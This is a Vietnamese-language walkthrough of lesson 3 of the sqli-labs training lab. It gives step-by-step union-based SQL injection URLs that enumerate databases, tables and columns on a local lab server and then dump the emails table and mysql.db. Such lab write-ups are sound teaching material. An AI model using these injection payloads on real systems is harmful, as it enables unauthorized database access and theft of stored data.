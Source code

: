# Một số việc làm với được lesson-3.md

![](../images/lesson1/screenshot.png)

Ta sẽ xem là server sử dụng hệ quản trị cơ sở dữ liệu nào ta nhìn vào port và thấy sử dụng MYSQL 

1. Đăng nhập với giá trị id 
```
http://192.168.80.225/sqli-labs/Less-3/?id=1
```

![](../images/lesson3/screen_11.png)

2. Show tấ cả các DB có trong hệ thống
- Với command
```
http://192.168.80.225/sqli-labs/Less-3/?id=1') union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```

![](../images/lesson3/screen.png)

Các DB sẽ cách nhau một dấu phẩy 

3. Show tất cả các bảng của từng DB một 
- Show tất cả các bảng của DB security 
```
http://192.168.80.225/sqli-labs/Less-3/?id=1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```

![](../images/lesson3/screen_1.png)

- Show tất cả các bảng của DB mysql 
```
http://192.168.80.225//sqli-labs/Less-3/?id=1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```

![](../images/lesson3/screen_2.png)

- Show tất cả các bảng của DB challenges
```
http://192.168.80.225/sqli-labs/Less-3/?id=1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```

![](../images/lesson3/screen_3.png)

Các DB khác tương tự và chỉ thay ở tên challenges

4. Show tên các cột trong từng bảng của từng DB 
- Show tên các trường trong bảng users trong  DB security
```
http://192.168.80.225/sqli-labs/Less-3/?id=1') union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 1,1 --+
```

![](../images/lesson3/screen_4.png)

- Show tên các trường trong bảng emails trong  DB security
```
http://192.168.80.225/sqli-labs/Less-3/?id=1') union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='emails' limit 1,1 --+
```

![](../images/lesson3/screen_5.png)

-  Show tên các trường trong bảng uagents trong  DB security
```
http://192.168.80.225/sqli-labs/Less-3/?id=1') union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' limit 1,1 --+
```

![](../images/lesson3/screen_6.png)

- Show tên các trường trong bảng referers trong  DB security

```
http://192.168.80.225/sqli-labs/Less-3/?id=1') union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='referers' limit 1,1 --+
```

![](../images/lesson3/screen_7.png)

- Show dữ liệu tên trường của bảng db trong database mysql 
```
http://192.168.80.225/sqli-labs/Less-3/?id=1') union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='mysql' AND table_name='db' limit 1,1 --+
```

![](../images/lesson3/screen_8.png)

Đọc dữ liệu trong một bảng 
- Bảng emails của security 
```
http://192.168.80.225/sqli-labs/Less-3/?id=1') union SELECT 1,group_concat(id),group_concat(email_id) from emails limit 1,1--+
```

![](../images/lesson3/screen_9.png)


- Show dữ liệu trong bảng của  một DB khác 
```
http://192.168.80.225/sqli-labs/Less-3/?id=1')  union SELECT 1,2,group_concat(Host) from mysql.db limit 1,1--+
```

![](../images/lesson3/screen_10.png)

Tương tự như thế thì đối với các bảng và các DB khác thì ta truy suất tương tự như thế và thay tên các trường các table các DB mà ta mong muốn. 